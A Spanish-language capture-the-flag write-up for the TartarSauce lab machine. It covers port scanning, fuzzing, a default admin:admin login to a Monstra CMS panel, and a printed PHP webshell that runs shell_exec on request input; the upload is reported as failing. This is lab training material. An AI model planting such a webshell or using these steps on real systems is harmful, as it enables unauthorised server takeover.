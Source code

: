# 10.10.10.88 - TarTarSauce
![TartarSauce](https://user-images.githubusercontent.com/96772264/208294421-3071e739-244a-4445-abee-6fd3504fff9a.png)

---------------------------

Puertos abiertos: 80(http) ```└─$ nmap -sCV -T5 -v -p- --open -Pn 10.10.10.88```

Puerto 80 -> Apache httpd 2.4.18. Un robots.txt con las entradas:
- /webservices/tar/tar/source/     
- /webservices/monstra-3.0.4/  
- /webservices/easy-file-uploader/  
- /webservices/developmental/  
- /webservices/phpmyadmin/  

Si buscamos la web por curl, vemos un dibujo ascii de un bote de salsa (tartara supongo) y nada más.
![tartar2](https://user-images.githubusercontent.com/96772264/208294337-fdff2d43-655a-425b-ae1d-94ba29791094.PNG)

- Busqueda por subdirectorios ```└─$ wfuzz -c --hw=53 -w $(locate subdomains-top1million-5000.txt) -H "Host: FUZZ.10.10.10.88" -u http://10.10.10.88/ -t 100```

## Monstra

/webservices/monstra-3.0.4/
Tiene varios botones pero ninguno es funcional.
![tartar1](https://user-images.githubusercontent.com/96772264/208294326-7d6df51b-ea65-4395-b0d8-47c1b2e84b9b.PNG)

Lo que si funciona es el boton de admin: /webservices/monstra-3.0.4/admin/
Te sale un panel de autenticación. Puse admin:admin para ver como se tramitaba la petición pero entré por ser 
las credenciales correctas.

Indagando por la web, encontré una zona para subir archivos, por lo que pensé en subir una php webshell, pero
antes es ideal buscar en searchsploit **monstra 3.0.4**. Acabé dando con un exploit que me decía se subir la
webshell con la extensión php7
![tartar3](https://user-images.githubusercontent.com/96772264/208294308-34e6487e-b769-40d1-a7e6-a8badf34eeec.PNG)

```console
└─$ cat cmd.php7
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Se supone que se queda en /monstra/public/uploads/shell.php7?cmd=id. Pero me dice que el archivo no se subió
correctamente. Si pruebas a mandar un archivo txt normal "Hola Mundo" tampoco te deja, porlo que no parece muy
funcional.
